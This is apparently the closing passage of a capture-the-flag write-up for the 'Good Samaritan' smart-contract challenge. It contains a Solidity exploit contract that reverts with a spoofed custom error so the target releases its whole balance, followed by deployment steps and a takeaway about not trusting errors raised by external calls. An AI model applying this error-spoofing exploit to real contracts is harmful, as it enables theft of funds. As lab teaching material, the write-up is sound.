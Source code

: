 Below is the Exploit contract code.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


interface IGoodSamaritan{
    function requestDonation()external returns (bool);
}

contract ExploitGoodSamaritan{
    ////////////////////////
    //////Errors////////////
    ////////////////////////

    error NotEnoughBalance();

    ///////////////////////
    ///State Variables/////
    ///////////////////////

    IGoodSamaritan samaritan;

    constructor(address _addr){
        samaritan=IGoodSamaritan(_addr);
    }


    function Exploit()public{
        samaritan.requestDonation();
    }

    function notify(uint256 _amount)public payable{
        if(_amount==10){
            revert NotEnoughBalance();
        }

    }

}
```

Deploy this contract and call the Exploit() function. Once the call is done successfully the challenge will be solved.

Hope you enjoyed this challenge.

### Key takeaways

We should not write our contract logic based on errors unless we are sure that the errors can only be thrown by our contract itself or in the way we intended. If our contract logic depends on errors and makes calls to other contracts, then malicious actors may revert with the same error and exploit our contract logic.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
